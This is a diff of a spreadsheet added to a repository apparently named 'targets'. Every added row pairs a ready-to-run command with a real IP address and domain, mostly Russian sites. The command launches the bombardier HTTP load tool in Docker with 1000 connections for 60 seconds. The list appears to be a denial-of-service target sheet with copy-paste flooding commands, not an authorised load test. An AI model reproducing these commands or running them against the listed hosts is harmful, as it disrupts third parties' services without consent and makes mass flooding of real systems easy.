

Before and after one commit to dmitryshagin/targets, an Excel workbook: test.xlsx, sheet Sheet1, drawn as a sheet; only a part is shown, gaps mark what is left out; values as stored, in another font and other column widths than the file's, no borders; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Add files via upload

```diff
--- a/test.xlsx (sheet Sheet1)
+++ b/test.xlsx (sheet Sheet1)
+row 169: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 185.178.208.24&& sleep 5; | 185.178.208.24 | volunteer.su
+row 170: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 212.193.158.157&& sleep 5; | 212.193.158.157 | вэб.рф
+row 171: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 185.96.85.246&& sleep 5; | 185.96.85.246 | lsgroup.ru
+row 172: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 195.208.1.110&& sleep 5; | 195.208.1.110 | lsgroup.ru
+row 173: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 195.208.1.121&& sleep 5; | 195.208.1.121 | lsgroup.ru
+row 174: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 212.23.65.213&& sleep 5; | 212.23.65.213 | lsgroup.ru
+row 175: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 84.204.33.22&& sleep 5; | 84.204.33.22 | lsgroup.ru
+row 176: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 89.104.85.140&& sleep 5; | 89.104.85.140 | lsgroup.ru
+row 177: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 91.223.109.10&& sleep 5; | 91.223.109.10 | lsgroup.ru
+row 178: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 91.223.109.121&& sleep 5; | 91.223.109.121 | lsgroup.ru
+row 179: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 91.223.109.122&& sleep 5; | 91.223.109.122 | lsgroup.ru
+row 180: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 91.223.109.161&& sleep 5; | 91.223.109.161 | lsgroup.ru
+row 181: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 93.92.194.250&& sleep 5; | 93.92.194.250 | lsgroup.ru
+row 182: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 172.67.156.31&& sleep 5; | 172.67.156.31 | veronikastepanova.com
+row 183: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 104.21.56.220&& sleep 5; | 104.21.56.220 | veronikastepanova.com
```
